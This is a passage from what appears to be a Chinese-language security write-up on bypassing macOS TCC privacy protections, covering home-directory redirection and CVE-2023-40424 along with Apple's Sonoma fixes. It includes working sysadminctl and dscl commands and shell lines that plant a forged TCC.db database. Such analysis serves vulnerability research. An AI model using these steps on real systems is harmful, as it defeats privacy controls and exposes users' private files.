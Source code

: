  ![](/attachments/2024-06-12-macos-tcc-bypass/76e1054e-d465-46cc-be5b-d3c2eee975cd.png)

当时，在macOS上各种缓解还没施行之前，可以通过代理攻击或替换插件等行为进行劫持程序执行流,同时此应用未开启Hardened Runtime强化运行。

当进行代理攻击之后，则会通过使用`kTCCServiceSystemPolicySysAdminFiles`权限作出修改主目录的行为。

通过上述恶意行为，可以修改`NFSHomeDirectory`变量对应路径指向，在重启用户TCC守护进程之后，则会加载`NFSHomeDirectory`路径所对应的TCC.db数据库文件，从而导致用户TCC守护进程读取伪造的应用特权。

#### CVE-2023-40424

而在各种缓解措施之后，系统App层的代理攻击已经濒临灭绝，但是有一点可知，若是依旧能修改主目录指向自定义路径，依然可以加载自定义TCC数据库。

而在macOS Sonoma系列发行之后，存在如下变动：

```plain text
In Ventura user's TCC.db was "global" 
(e.g.: access to Documents = all users' Documents) but Sonoma this is per user
```

在Sonoma版本中，用户的TCC特权进一步隔离保护，用户间相互独立，每个用户具有自身的访问控制，当前用户是无法轻易的访问到其他用户目录中的相关隐私数据。

而漏洞则是由于在新用户进入系统之时，则会通过预先指定的`NFSHomeDirectory`所对应路径进行加载自定义的配置文件，其中守护进程自然会加载目录中可以由攻击者自定义控制的TCC.db数据库文件，从而达到隐私绕过。

通过`sysadminctl`  创建用户并指定 **\<HOME Directory\>**

`sudo sysadminctl -addUser username -password password -home /path/to/custom_home`

```bash
sudo dscl . -create /Users/username
sudo dscl . -create /Users/username UserShell /bin/zsh
sudo dscl . -create /Users/username RealName "Full Name"
sudo dscl . -create /Users/username UniqueID 555
sudo dscl . -create /Users/username PrimaryGroupID 20
sudo dscl . -create /Users/username NFSHomeDirectory /path/to/custom_home
sudo dscl . -passwd /Users/username password
```

抑或通过 dscl命令进行创建用户并设置对应 **\<NFSHomeDirectory\>** 来进行加载自定义TCC.db

同时，也可以通过模板库中预先存放指定TCC数据库文件，新用户创建时则会加载对应路径中的自定义文件。

```plain text
echo "++ Copy TCC database to Templates"
mkdir -p /Library/User\ Template/Non_localized/Library/Application\ Support/com.apple.TCC
cp /private/tmp/TCC.db /Library/User\ Template/Non_localized/Library/Application\ Support/com.apple.TCC/
```

苹果在 macOS Sonoma 中采取了双重修复措施：

首先，用户级 TCC 数据库不会授予您访问其他用户私人文件的权限，因此控制了其他用户的TCC数据库，亦是没有办法去访问其他用户的敏感信息；

其次，首次登录时将创建一个新的 TCC 数据库；因此，任何先前创建的文件都将被系统删除，从利用场景的情况下隔绝了例如通过提前往模板库中存放伪造的TCC数据库文件达到TCC隐私权限的绕过的利用行为。

### 3.3 通过挂载文件系统绕过隐私保护

#### CVE-2020-9771
